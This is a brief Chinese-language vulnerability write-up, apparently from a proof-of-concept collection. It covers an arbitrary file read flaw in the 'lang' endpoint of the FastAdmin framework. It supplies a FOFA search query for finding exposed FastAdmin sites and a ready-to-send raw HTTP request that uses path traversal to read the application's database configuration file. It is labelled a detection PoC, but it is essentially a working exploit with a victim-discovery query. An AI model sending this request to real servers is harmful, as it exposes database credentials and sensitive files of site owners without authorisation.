 **fofa**

```
body="api.fastadmin.net"
```

**一、漏洞简述**

FastAdmin 后台框架开源且可以免费商用，一键生成 CRUD， FastAdmin 是一款基于 ThinkPHP 和 Bootstrap 的极速后台开发框架，基于Auth验证的权限管理系统，一键生成 CRUD，自动生成控制器、模型、视图、JS、语言包、菜单、回收站等。（Fast Admin 极速 后台 框架）。其接口lang存在任意文件读取漏洞，攻击者可通过该漏洞读取系统敏感文件。

**二、漏洞检测poc**

windows

```yaml
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.2 Safari/537.36
Content-Length: 2
```

